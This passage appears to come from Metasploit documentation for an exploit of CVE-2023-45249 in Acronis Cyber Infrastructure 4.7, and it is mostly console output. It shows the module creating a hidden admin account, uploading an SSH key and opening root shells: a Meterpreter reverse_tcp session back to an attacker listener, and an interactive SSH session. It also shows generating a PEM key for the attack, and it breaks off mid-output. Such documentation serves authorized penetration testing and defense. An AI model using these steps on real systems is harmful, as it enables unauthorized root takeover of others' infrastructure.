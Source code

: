 ```msf
[*] Authenticating with SSH private key.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.5
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.5:51488) at 2024-09-15 19:45:46 +0000

meterpreter > sysinfo
Computer     : aci-471-53.vstoragedomain
OS           : Red Hat 4.7 (Linux 3.10.0-1160.41.1.vz7.183.5)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user exvk1 with password NcwVNFNL3t for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:36279 -> 192.168.201.5:22) at 2024-09-16 17:56:56 +0000

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH using your own SSH private key file in PEM format
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa
[*] exec: ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/aci_rsa
Your public key has been saved in /tmp/aci_rsa.pub
The key fingerprint is:
SHA256:H1Ewu7NLZdYIV4SQZPhsaGkXb/IG9fQgZEjqfKBRTIg root@cerberus
The key's randomart image is:
+---[RSA 2048]----+
|     . +o+B*+oo  |
|    E ..oo+=+.o  |
|      . o=++.+ o |
|       ==.B=oo. .|
|      .oSo=== .  |
|         o Bo    |
```
